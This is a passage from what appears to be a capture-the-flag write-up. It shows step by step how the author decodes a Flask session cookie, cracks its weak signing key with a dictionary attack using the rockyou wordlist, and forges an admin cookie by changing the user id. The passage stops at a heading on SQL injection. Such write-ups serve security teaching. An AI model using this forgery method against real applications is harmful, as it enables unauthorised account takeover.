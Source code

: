 Here we can create tasks and not much more. As hinted to in the challenge description, the session cookie seems to a flask session cookie:

`session=.eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvBL4_p3wvlQ.ZjzjBA.7YSDVHn2FRF6qSMDeB_hxoYd3Rw`

Let's use [noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager) to decode the cookie:

```sh
$  python3 flask_session_cookie_manager3.py decode -c .eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvBL4_p3wvlQ.ZjzjBA.7YSDVHn2FRF6qSMDeB_hxoYd3Rw
b'{"_fresh":true,"_id":"2856aca30082bc57a2a577d6bc80d9bc79e30b1f89286819c4f78a7d773e954a49ba74009090dcc56e61e3145c4cedfc7cf11c6f3d5952059e157ff9e7bb5dbf","_user_id":"9"}'
```

It seems like we need to craft our own session cookie to change our user id. Let's try to use [mprunet/flask_util](https://github.com/mprunet/flask_utill) which is a tool for decoding an cracking flask session cookies. We can use the `bruteforce.py` script to do a dictionary attack to try to get the password:

```sh
$ python bruteforce.py ".eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvBL4_p3wvlQ.ZjzjBA.7YSDVHn2FRF6qSMDeB_hxoYd3Rw" ~/Hacking/wordlists/rockyou.txt 
Secret key: password
```

Here we get that the secret key used to encode the cookie is password. Now that we have the secret key, we can use [noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager) again to encode our own cookie:

```sh
$ python flask_session_cookie_manager3.py encode -s password -t '{"_fresh":True,"_id":"2856aca30082bc57a2a577d6bc80d9bc79e30b1f89286819c4f78a7d773e954a49ba74009090dcc56e61e3145c4cedfc7cf11c6f3d5952059e157ff9e7bb5dbf","_user_id":"1"}'
.eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvEL4_p2QvjQ.ZjzkqQ.FqwaLPudBvqcbQhJNda3QZPcRzo
```

By using this session cookie we are now admin!

## SQL injection

Now that we are admin, there is a new page that we can visit:
